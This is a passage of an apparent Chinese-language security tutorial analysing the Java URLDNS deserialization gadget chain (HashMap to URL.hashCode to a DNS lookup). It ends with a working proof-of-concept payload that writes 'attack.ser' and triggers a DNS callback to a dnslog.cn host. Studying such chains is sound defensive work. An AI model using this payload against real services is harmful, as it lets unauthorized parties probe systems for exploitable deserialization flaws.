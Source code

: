 这是计算了`handler`的`hashCode`，是`URLStreamHandler`的实现类，那么继续跟进：

```java
protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    ......
}
```

有一个`getHostAddress`方法：

```java
protected synchronized InetAddress getHostAddress(URL u) {
    if (u.hostAddress != null)
        return u.hostAddress;

    String host = u.getHost();
    if (host == null || host.equals("")) {
        return null;
    } else {
        try {
            u.hostAddress = InetAddress.getByName(host);
        } catch (UnknownHostException ex) {
            return null;
        } catch (SecurityException se) {
            return null;
        }
    }
    return u.hostAddress;
}
```

这里有个`InetAddress.getByName(host)`就是做了一次DNS解析查询。

触发链就是：`HashMap::readObject -> HashMap::hash -> URL::hashCode -> URLStreamHandler::hashCode -> URLStreamHandler::getHostAddress -> InetAddress::getByName`；这里还要注意的是因为是反序列化触发，如果正常反序列化，类的`hashCode`已经被计算出来了所以不会再计算，因此需要在生成序列化的时候将`hashCode`修改为`-1`，而当该字段值为其他的时候，就不会触发DNS，这个特性能用在生成payload上。

手写的payload如下：

```java
HashMap<URL, String> hashMap = new HashMap<>();
URL url = new URL("http://6zec98.dnslog.cn");
Class<?> clazz = Class.forName("java.net.URL");
Field f = clazz.getDeclaredField("hashCode");
f.setAccessible(true);
f.set(url, 0xffff);
hashMap.put(url,"SilentE");
f.set(url,-1);
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("attack.ser"));
oos.writeObject(hashMap);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new FileInputStream("attack.ser"));
ois.readObject();
```
